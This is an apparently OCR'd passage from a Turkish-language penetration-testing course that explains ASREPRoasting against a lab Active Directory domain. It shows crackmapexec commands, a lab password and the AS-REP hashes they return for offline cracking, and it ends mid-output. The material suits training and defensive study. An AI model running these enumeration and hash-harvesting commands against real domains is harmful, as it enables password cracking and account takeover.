 
### Finding ASREPRoastable Accounts

ASREPRoast saldırısı, Kerberos `pre-authentication (ön kimlik doğrulaması)` gerekmeyen kullanıcıları arar. Bu, herhangi birinin bu kullanıcılardan herhangi biri adına KDC'ye bir `AS_REQ` isteği gönderebileceği ve bir `AS_REP` mesajı alabileceği anlamına gelir. Bu son tür mesaj, şifresinden türetilen orijinal `user anahtarıyla` şifrelenmiş bir veri parçası içerir. Daha sonra, bu mesaj kullanılarak, kullanıcı nispeten zayıf bir parola seçtiyse, kullanıcı parolası `çevrimdışı` olarak kırılabilir. 

Domain üzerinde bir hesabımız yoksa ancak bir kullanıcı adı listemiz varsa, belki şansımız yaver gider ve Kerberos pre-authentication gerektirmeyen seçeneğe sahip bir hesap bulabiliriz. Bu seçenek ayarlanmışsa, kullanıcının şifresiyle çözülebilen şifrelenmiş verileri bulmamızı sağlar.

Daha önce `--asreproast` seçeneği ile bulduğumuz kullanıcı listesi ile LDAP protokolünü kullanabilir ve ardından bir dosya adı ve DC'nin FQDN'sini hedef olarak belirtebiliriz. Bu saldırıya karşı savunmasız en az bir hesap olup olmadığını belirlemek için `users.txt` dosyasının içindeki her hesabı arayacağız:

### ASREPRoast için Bruteforcing Hesapları

```
crackmapexec ldap dc01.inlanefreight.htb -u users.txt -p '' --asreproast
asreproast.out

SMB dc01.inlanefreight.htb 445 DC01 [*] Windows
10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
LDAP dc01.inlanefreight.htb 445 DC01 [email
protected]:1674ae058d5280dbc25ee678ee938c71$7277ce57387d449dd80c5e9d9a9b94
0a91e1f720e506ce910d7b48ad9faa97d10e32dc265101ad14b097e5755108278a4f32bb62
3d716478a600c5301e03db8e97165b0d0229155cef2a34d40f57841c0a7a1a0d0fed693b23
1e81940d70f127d20af8e6a1e813d663484c3073ed8ba8f2e117f15f8def6ebda88fc45baf
59a6fbee01d87dce18051b9159e38a2869a5fdffa0ccffde4ac5ae45a75f978ac958f0d23b
2e36fa05cbfe13f38ca7ea4311e859d85b1c29e4ce226c72c09e25127a96a18f7afc8d2c73
67a2dc14d61954b9e63812f5787e3ce5e2dc403674549e0bb18e76f758b4c04ad46ff34945
9fcb777b78d50fb876
```

Listemize dayanarak, ASREPRoasting'e karşı savunmasız bir hesap bulduk. `Geçerli kimlik bilgilerimiz varsa`  Kerberos pre-authentication gerektirmeyen tüm hesapları talep edebiliriz. ASREPRoast'a karşı savunmasız tüm hesapları istemek için Grace'in kimlik bilgilerini kullanalım.


### Search for ASREPRoast Accounts

```
crackmapexec ldap dc01.inlanefreight.htb -u grace -p Inlanefreight01! --
asreproast asreproast.out

SMB dc01.inlanefreight.htb 445 DC01 [*] Windows
10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True)
(SMBv1:False)
LDAP dc01.inlanefreight.htb 389 DC01 [+]
inlanefreight.htb\grace:Inlanefreight01!
LDAP dc01.inlanefreight.htb 389 DC01 [*] Total of
records returned 6
LDAP dc01.inlanefreight.htb 389 DC01 [email
protected]:5567a4d9df8894497ce50c74c15cbe74$ea2eeece92c1314848071449c4061f
1c8e0153a5e91deaec56a1009b33aa4aa8fd86f9a17d8012629ee31aa525eeb98c1a9fc873
f1db27935f79d6fe8a9edc43116afcfdc161d1f90e48baf5d25691f418254ffe9e68c9ff36
ded80b81e165a61fc3867202fcd0e5279d45509024e728e792a1dede3deedb522028d4c76d
b8f7f819775136c350727d83f00cc9ddddcb1df1813cc7a4c299352af22d61a746bb84c6c9
de8e501ed35e630a424fb560349d827b23658081c1bab64e7a208eab6af974d972ad8f445f
b3cbb55a0d294429a5be20472e92963c4ebd7e39ad49cd47661d6d3b7045a3200454b6deb6
e88fcdac3d0a81326c
LDAP dc01.inlanefreight.htb 389 DC01 [email
protected]:be96a4ea9e79a3f21c2984fc8b75d1f6$34c5bd1641d4588248348b6b91713d
```